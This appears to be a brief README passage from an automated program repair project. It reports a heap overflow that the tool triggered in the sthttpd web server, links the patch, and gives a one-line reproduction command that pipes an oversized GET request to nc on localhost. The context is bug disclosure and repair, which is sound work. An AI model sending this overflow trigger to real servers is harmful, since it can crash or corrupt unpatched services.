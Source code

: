 APR triggered a heap overflow, you can see the issue and the patch by looking
at the merge request sent to the sthttpd developer: 
https://github.com/blueness/sthttpd/pull/4. 

To trigger the heap overflow, you can run the following command (assuming that sthttpd runs on port 80):

echo -e "GET /aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/./ HTTP/1.1\r\nHost: test.com\r\n\r\n" | nc localhost 80

